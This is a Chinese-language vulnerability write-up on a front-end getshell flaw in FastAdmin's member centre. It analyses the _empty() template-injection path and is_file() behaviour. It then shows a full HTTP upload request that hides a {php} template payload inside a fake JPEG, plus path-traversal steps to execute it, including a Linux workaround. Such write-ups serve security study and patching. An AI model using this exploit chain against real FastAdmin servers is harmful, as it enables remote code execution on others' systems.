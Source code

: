 FastAdmin 会员中心前台getshell
==============================

一、漏洞简介
------------

### 利用条件

`/application/config.php` 文件中：

    //是否开启前台会员中心
    'usercenter'            => true,

即需要开启会员中心功能

二、漏洞影响
------------

V1.0.0.20200506\_beta

三、复现过程
------------

### 漏洞分析

`/application/index/User.php`文件

第58-67行：

     public function _empty($name)
        {    
            $data = Hook::listen("user_request_empty", $name);
                foreach ($data as $index => $datum) {
                $this->view->assign($datum);
                }
        return $this->view->fetch($name);
    }
    user_request_empty`为开发者预留的钩子可以忽视不看，主要看` return $this->view->fetch($name);

此方法中的`$name`参数可控，并且将`$name`的值传入到了`fecth()`函数中。

`fetch()`为thinkphp的解析模板函数，其返回模板文件渲染后的内容

`fetch()`函数的关键内容如下：

      public function fetch($template, $data = [], $config = [])
        {
            if ('' == pathinfo($template, PATHINFO_EXTENSION)) {
                // 获取模板文件名
                $template = $this->parseTemplate($template);
            }
            // 模板不存在 抛出异常
            if (!is_file($template)) {
                throw new TemplateNotFoundException('template not exists:' . $template, $template);
            }
            // 记录视图信息
            App::$debug && Log::record('[ VIEW ] ' . $template . ' [ ' . var_export(array_keys($data), true) . ' ]', 'info');
            $this->template->fetch($template, $data, $config);
        }

继续调用栈可以看下其实这个fetch()函数调用的是内置模板引擎的fetch方法，
这个方法实际上就是将要输出的页面内容赋值给一个变量，为了方便，thinkphp在对模板渲染的过程中，添加了php标签功能，使得其可以解析php代码。

总之一句话，这个漏洞其实就是由于对传入变量过滤不严导致的模板引擎注入漏洞，只要控制了传入模板的文件，就可以利用模板本身的渲染功能，实现包含漏洞getshell

另外需要注意的是，当验证传入的模板是否是文件时，使用的`is_file()`函数，这个函数在Linux下和windows下的判断会有所不同，具体如下：

1、在linux下利用`is_file()`来判断类似于`/****/../../../../etc/passwd`文件时，如果`****`是不存在的目录，则会返回false，在windows下
，这个目录存在与否，均返回true，如下图所示：

![1.png](resource/FastAdmin会员中心前台getshell/media/rId26.png)

![2.png](resource/FastAdmin会员中心前台getshell/media/rId27.png)

2、在linux下，`is_file()`函数判可用于判断符号链接

3、在linux下，`is_file`函数会受到权限的影响，当前用户权限不足或父目录没有设置+x权限时，`is_file()`会返回false

4、windows系统里面`/`和`\` 都可以使用，但是在linux下只能使用`/`
来分隔路径，因此这会导致`is_file()`在不同系统下的返回结果不一致

![3.png](resource/FastAdmin会员中心前台getshell/media/rId28.png)

![4.png](resource/FastAdmin会员中心前台getshell/media/rId29.png)

5、`is_file()`判断文件时，如果文件大小超过2\^32时，会判断失败

### 漏洞复现

通过前文可知，这个漏洞的利用点在`_empty()`函数，需要注意的是，在官方文档中通常`_empty()`方法是用来判断一个方法是否存在，如果不存在，则进入该函数。而这里是开发者自定义的方法，因此直接传入`_empty`方法，调用name参数即可。

利用过程如下：

在前台的会员中心，个人资料处，上传修改头像：

![5.png](resource/FastAdmin会员中心前台getshell/media/rId31.png)

抓包后修改图片数据（满足图片头格式即可）：

    POST /index/ajax/upload HTTP/1.1
    Host:www.0-sec.org:8088
    Content-Length: 596
    Origin: http://122.114.216.233
    User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/69.0.3497.100 Safari/537.36
    Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryJ60Dcmopu4qDLQwq
    Accept: */*
    Referer: http://103.40.247.24/index/user/profile.html
    Accept-Encoding: gzip, deflate
    Accept-Language: zh-CN,zh;q=0.9
    Cookie: Hm_lvt_f8d0a8c400404989e195270b0bbf060a=1600651554; PHPSESSID=e42uhkmhirv29cpd82qbubigd7; uid=3; token=251be91c-040b-4231-b955-76c3ecfaf4f4; Hm_lpvt_f8d0a8c400404989e195270b0bbf060a=1600651809
    Connection: close
    
    ------WebKitFormBoundaryJ60Dcmopu4qDLQwq
    Content-Disposition: form-data; name="name"
    
    400x400a0a0.jpg
    ------WebKitFormBoundaryJ60Dcmopu4qDLQwq
    Content-Disposition: form-data; name="file"; filename="400x400a0a0.jpg"
    Content-Type: image/jpeg
    
    ÿØÿà8Photoshop 3.08BIM8BIM%"
    {php}phpinfo();{/php}
    ------WebKitFormBoundaryJ60Dcmopu4qDLQwq--

![6.png](resource/FastAdmin会员中心前台getshell/media/rId32.png)

记录下路径后，成功getshell

![7.png](resource/FastAdmin会员中心前台getshell/media/rId33.png)

在Linux下，通过这种方法会失效，因为在`/public`路径下不存在`user`目录，由前文中的知识点可以知道，当不存在这个目录的时候，无论怎么跳转目录，`is_file()`函数返回的结果始终未false，因此无法利用该漏洞，如下图所示：

![8.png](resource/FastAdmin会员中心前台getshell/media/rId34.png)

当我们在`/public`目录下创建文件夹`/user`，在利用，即可成功：

![9.png](resource/FastAdmin会员中心前台getshell/media/rId35.png)

参考链接
--------

> https://www.cnpanda.net/codeaudit/777.html
